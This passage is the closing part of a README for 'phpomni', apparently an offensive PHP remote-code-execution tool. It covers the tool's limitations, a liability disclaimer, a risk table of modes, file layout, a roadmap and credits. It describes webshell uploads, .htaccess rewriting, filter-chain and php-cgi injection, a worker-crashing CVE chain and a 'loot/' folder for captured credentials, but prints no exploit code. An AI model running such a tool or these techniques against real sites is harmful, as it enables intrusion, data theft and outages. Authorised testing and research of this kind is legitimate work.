- **The CVE matrix is offset-cross-verified, not per-row lab-proven.** The 29 rows carry offsets and grooms cross-ported from the maintainer-verified devploit calibration of the official images; php-omni's own forge against each of those images is sim-proven (the `8.4.26` row is real-lab proven, ours and theirs). A real-lab run against `php:8.4.10-apache` and one 8.5 image is the remaining confidence step. This is deliberate: the prong never claims `hard` without real `uid=` output, and a wrong row fails closed at the dtor anchor.
- **Distro and FPM builds need calibration.** The matrix covers official bookworm Apache images; Debian/Ubuntu/cPanel builds and every FPM target need one `--calibrate` run to write their row.
- **8.5.0 – 8.5.9 are best-effort.** Their stage 3 needed "vessel" steering in the reference calibration; php-omni ships the standard carrier there. Recalibrate or retry.
- **`--config-upload` still clobbers `.htaccess`.** v13 backs it up and `--restore-config` puts it back, but if the run dies mid-way and you didn't pass the flag, the backup is sitting in `loot/` and the site is still broken.
- **The CVE prong is loud.** OOM requests per attempt and workers restarting. A soft-404 target can eat hundreds of requests.
- **`--pwn` is loud.** `--config-upload` and `--stage` on, delay at zero at `--loud`.
- **No `data://` or `php-cgi` without `allow_url_include`.** The profile gates them correctly, which means they're absent on hardened boxes.
- **HTTP transport has no TTY.** Interactive binaries hang.
- **Detection is heuristic.** `detect_sapi` reads `Server` and `X-Powered-By`; a stripped header means `unknown` and a shorter pipeline. `--force-sapi` and `--force-os` override when you know better.
- **No unix-socket FPM access from your machine.** The FastCGI client is PHP that runs on the target.
- **WordPress is not special-cased.** `wp-admin/admin-ajax.php` is in the wordlist; the rest is generic.
- **Single-writer resume file.** Two concurrent runs against one file will interleave.

---

## Legal

**You are responsible for where you point this. The author is not.**

phpomni is active. It uploads files, writes `.htaccess` and `.user.ini`, sends POST bodies to unknown endpoints, can leave a webshell sitting on a server, and — via the php2shell prong — can OOM PHP workers hard enough to restart them. None of that is guaranteed to be harmless, reversible, or noticed. If a site breaks after a run, that is on the operator, not on this repo.

**No warranty, no liability.** The software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose and noninfringement. In no event shall the author or copyright holder be liable for any claim, damages or other liability, whether in an action of contract, tort or otherwise, arising from, out of or in connection with the software or the use or other dealings in the software.

**Specifically, the author accepts no responsibility for:**

- Testing a target without permission
- Data loss, corruption, or downtime caused by a run
- An overwritten or broken `.htaccess`
- Workers restarting, or a run that trips a restart threshold
- A webshell left behind and later found — or later exploited by someone else
- Credentials, tokens, or customer data captured into `loot/`
- Terms-of-service violations on hosted platforms (shared hosting, WordPress.com, Shodan's API)
- Legal exposure in any jurisdiction, including under computer-misuse statutes
- Anything a third party does after being handed the output

**Practical risk levels**, so you can judge before you run:

| Mode | Touches | Risk |
| --- | --- | --- |
| `--plan` | Nothing | None — no requests beyond one GET |
| `--no-upload --no-lfi --no-cve` | Nothing | Read-only |
| default | Uploads files to writable dirs | Low, leaves artefacts |
| `--config-upload` | Rewrites `.htaccess` / `.user.ini` | Medium — can break a live site |
| `--config-upload --restore-config` | Rewrites, then puts it back | Medium — only if the run finishes |
| CVE prong on an in-range host | OOM requests, worker restarts | Medium-High — invisible, can restart the SAPI |
| `--pwn` | All of the above, delay 0 | High — loud and persistent |

If a client cares, send them `--plan` output first and get a written yes before the run. Clean up after yourself: the uploaded files are named `phpomni*` and the config lines are `AddType` / `AddHandler` / `auto_prepend_file` — both are easy to spot and remove.

**Scope of authorisation is your problem to establish**, not the tool's to guess. A successful shell is not evidence you were allowed to take one.

## File layout

```
phpomniv13.py       # everything — the tool
sim_target.py       # pure-Python lab simulator (no Docker, no PHP)
wordlist.txt        # handler paths, auto-loaded, -w overrides
requirements.txt    # rich, PySocks (both optional)
loot/               # per-host captures (gitignored)
.gitignore          # ships with the repo
LEGAL.md            # the long-form legal notes
LICENSE             # MIT
```

Single file on purpose — it drops onto a jump box with `scp` and no package install. `sim_target.py` is the only optional second file, and it needs nothing but Python.

---

## Contributing

1. Fork, branch, commit.
2. `python3 phpomniv13.py --self-test` must pass. New parsers get new assertions.
3. Keep the marker contract: a prong that records `hard=True` must have round-tripped a marker (the CVE prong proves real `uid=` output, nothing looser).
4. New prongs get a `case` arm in `run_target` and an entry in `plan_for`, gated on profile.
5. CVE-engine changes get a simulator check: `python sim_target.py` + a `--cve-only` run in both SAPI modes.
6. Don't add a dependency that isn't optional.

Bug reports: include the `--debug` traceback, the target's server headers, and what the tool decided.

---

## Roadmap

- [x] `.htaccess` backup and restore
- [x] `--chain-table PATH` to swap in a corrected iconv mapping
- [x] `--force-os` for stripped-header targets
- [x] CVE-2026-109618 / CVE-2026-109619 prong
- [x] Set-Cookie leak channel + dtor-anchored offset contract (v13.1)
- [x] `php_url_encode`-faithful `+` cookie decode (v13.1.1)
- [x] 29-row offset matrix from the public devploit calibration, per-row `forge_len` (v13.2)
- [x] Config-adaptive leak — memory_limit learning + rung ladder + `CONFIG BLOCKED` (v13.2)
- [x] FPM variant of the CVE chain (109619, sim-verified)
- [x] Extended carrier — commands beyond 14 bytes, `--stage` payload planting
- [x] Pure-Python lab simulator (`sim_target.py`) with config-killer modeling
- [ ] Lab-verify the matrix against real `php:8.4.10-apache` and one 8.5 image
- [ ] Lab-verify the FPM chain against a real `php:8.4.26-fpm` container
- [ ] Runtime verification of filter chains against the target
- [ ] Zip/phar upload with `zip://` inclusion
- [ ] GraphQL and REST media-endpoint handlers in the default wordlist
- [ ] Concurrent shell pool instead of a single interactive session

---

## License

MIT. See [LICENSE](LICENSE).

## Credits

Built on public prior art: the `convert.iconv` filter-chain technique, the `session.upload_progress` poisoning pattern, the php-cgi argument-injection lineage from CVE-2012-1823 through CVE-2024-4577, the php2shell discovery and analysis by [Wiz Research](https://www.wiz.io/blog/php2shell-php-rce), and 9bie's public php2shell exploit research — whose build calibrations are cross-ported here via the [devploit/php2shell](https://github.com/devploit/php2shell) matrix (MIT).
